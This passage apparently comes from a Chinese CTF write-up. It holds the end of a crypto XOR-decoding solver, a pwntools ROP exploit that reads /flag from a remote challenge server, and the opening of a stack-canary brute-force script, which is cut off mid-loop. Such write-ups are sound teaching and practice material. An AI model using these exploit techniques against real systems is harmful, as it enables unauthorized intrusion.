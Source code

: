 ```python
gen_key = []
for i in range(l):
    s = ''
    for j in range(8):
        if type(key[x])==int:
            s += str(key[x])
        else:
            s += key[x][1:]
        x = (A*x+B)%M
    gen_key.append(int(s, 2))

hex_values = [int(c[i:i+2], 16) for i in range(0, len(c), 2)]
for i in range(len(hex_values)):
    print(chr(hex_values[i]^gen_key[i]), end='')
```

## PWN
### day1 烧烤摊儿
静态编译栈溢出 没system没exec 标准ORW
```python
from pwn import *

p = remote("123.56.99.60", 26637)
e = ELF('shaokao')

p.sendlineafter(b'>', b'1\n1\n-9999')
p.sendlineafter(b'>', b'4')
p.sendlineafter(b'>', b'5')
context.arch = 'amd64'
r = ROP(e)
flag_str = b'/flag\x00'
r.call(e.symbols['read'], [0, e.bss() + 100, len(flag_str)])
r.call(e.symbols['open'], [e.bss() + 100, 0, 0])
r.call(e.symbols['read'], [3, e.bss() + 100, 100])
r.call(e.symbols['write'], [1, e.bss() + 100, 0x101])
r.call(e.symbols['write'], [1, e.bss() + 100, len(flag_str)*9])
p.sendline(b'a' * (0x20 + 8) + r.chain())
p.sendline(flag_str)
#gdb.attach(p)
p.interactive()
```
![picture 2](/img/c088ce8eea97c0b41a4ecb4ee26dfe661ee4cddcc0b2b0782dd70797a04accba.png)  

### day2 funcanary
抢一血没写循环直接展开了  
fork爆破canry 板子
然后有ASLR 有win 短跳爆破4bit即可
```python
import struct

from pwn import *

cn = remote("39.106.48.123", 27305)

cn.recvuntil(b'welcome\n')

canary = b'\x00'
for j in range(7):
    for i in range(0x100):
        cn.send(b'a' * 104 + canary + struct.pack('B', i))
        a = cn.recvuntil(b'welcome\n')
```